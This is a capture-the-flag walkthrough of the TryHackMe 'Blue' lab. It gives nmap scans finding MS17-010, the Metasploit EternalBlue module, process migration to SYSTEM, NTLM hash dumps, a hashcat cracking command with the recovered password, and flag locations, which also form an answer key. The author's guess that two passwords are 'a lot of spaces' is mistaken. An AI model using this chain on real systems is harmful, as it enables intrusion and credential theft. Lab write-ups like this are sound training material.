 [Blue](https://tryhackme.com/room/blue)
===============

Tasks
----------------------

1. [ Recon ](#recon)
2. [ Flags ](#Flags)

<a name="recon"></a>
## 1. Recon

```
IP=XXX
```
Some nmap scans to check vulnerabilities

```
nmap -sV -vv -Pn --script vuln $IP # -sV for versions, 
								   # -vv verbose, 
								   # -Pn ignore no returns of pings from the server
nmap --script=smb* -Pn $IP

nmap --script=smb-vuln-ms17-010 -Pn $IP
```

Last scan output:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 00:21 CEST
Nmap scan report for 10.10.219.192
Host is up (0.023s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 53.21 seconds
```

#2. How many ports are open with a port number under 1000?

```
3
```

#3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
ms17-010
```

<a name="Flags"></a>
## 2. Flags

```
exploit/windows/smb/ms17_010_eternalblue
```

I had a hard time getting the exploit to work. After I paid for a subscription it went within one try in the Kali VM from TryHackMe, I'm not sure why but most metasploit exploits I now tend to run in the Kali VM.

Once in, migrate to another process within NT AUTHORITY\SYSTEM with `migrate`:

`migrate -N winlogin.exe`

Command `hashdump` to dump the hashes:

``
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
``

These windows style hashdumps are hashed with NTLM, I used hashcat to bruteforce with the rockyou wordlist. -m 1000 for the NTLM format, -a 0 straight attack mode.

hashcat -a 0 -m 1000 ffb43f0de35be4d9917ac0cc8ad57f8d rockyou.txt 

Password of Jon: `alqfna22`

The passwords of Administrator and Guest seem to be alot of spaces?

Find flags with:

`search -f flag*.*`

Location first flag: C:/flag1.txt

Second flag in C:/Windows/System32/config/flag2.txt

Third flag in C:/Users/Jon/Documents/flag3.txt